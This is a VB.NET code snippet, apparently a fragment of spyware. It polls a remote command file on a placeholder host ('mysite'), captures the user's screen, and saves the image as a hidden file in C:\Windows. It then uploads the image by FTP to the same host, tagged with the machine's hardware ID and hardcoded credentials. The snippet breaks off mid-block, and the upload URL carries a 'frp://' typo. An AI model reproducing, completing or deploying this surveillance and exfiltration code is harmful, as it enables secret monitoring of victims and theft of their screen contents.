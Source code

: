 ```
Private Sub MakeScreen_DoWork(ByVal sender As System.Object, ByVal e As System.ComponentModel.DoWorkEventArgs) Handles MakeScreen.DoWork
        Dim screen1 As String
        Dim prcs As String

        Do Until screen1 = "1" Or prcs = "1"
            Dim request As System.Net.HttpWebRequest = System.Net.HttpWebRequest.Create("http://mysite/cmd/cmd.txt")
            Dim response As System.Net.HttpWebResponse = request.GetResponse

            Dim sr As System.IO.StreamReader = New System.IO.StreamReader(response.GetResponseStream())

            screen1 = sr.ReadLine
            prcs = sr.ReadLine

        Loop

        '''''Screenshot section '''''

        If screen1 = "1" Then

            Try
                'Do While ssCount < 1
                Dim bounds As Rectangle
                Dim screenshot As System.Drawing.Bitmap
                Dim graph As Graphics
                bounds = Screen.PrimaryScreen.Bounds
                screenshot = New System.Drawing.Bitmap(bounds.Width, bounds.Height, System.Drawing.Imaging.PixelFormat.Format32bppArgb)
                graph = Graphics.FromImage(screenshot)
                graph.CopyFromScreen(bounds.X, bounds.Y, 0, 0, bounds.Size, CopyPixelOperation.SourceCopy)
                PictureBox1.Image = screenshot
                PictureBox1.Image.Save("C:\Windows\" + "reqss-" + reqss.ToString + ".png", System.Drawing.Imaging.ImageFormat.Png) 'Сохраняем
                File.SetAttributes("C:\Windows\" + "reqss-" + reqss.ToString + ".png", attribute) ' Делаем скрытым

                Try
                'My.Computer.Network.UploadFile("C:\Windows\" & "reqss-" & reqss & ".png", "ftp://mysite/" & ThisHWID & "/" & "ss" & reqss.ToString + "-" & lblMatch.Text & "-" & TimeOfDay.TimeOfDay.ToString & ".png", "username", "pass")

                Dim request As System.Net.FtpWebRequest = DirectCast(System.Net.WebRequest.Create("frp://mysite/" & ThisHWID & "/" & "ss" & reqss.ToString + "-" & lblMatch.Text & "-" & TimeOfDay.TimeOfDay.ToString & ".png"), System.Net.FtpWebRequest)
                request.Credentials = New System.Net.NetworkCredential("username", "pass")
                request.Method = System.Net.WebRequestMethods.Ftp.UploadFile

                Dim file() As Byte = System.IO.File.ReadAllBytes("C:\Windows\" & "reqss-" & reqss & ".png")

                Dim strz As System.IO.Stream = request.GetRequestStream()
                strz.Write(file, 0, file.Length)
                strz.Close()
                strz.Dispose()

                Catch ex As Exception
                    MsgBox(ex.Message)
                End Try

                reqss = reqss + 1
```
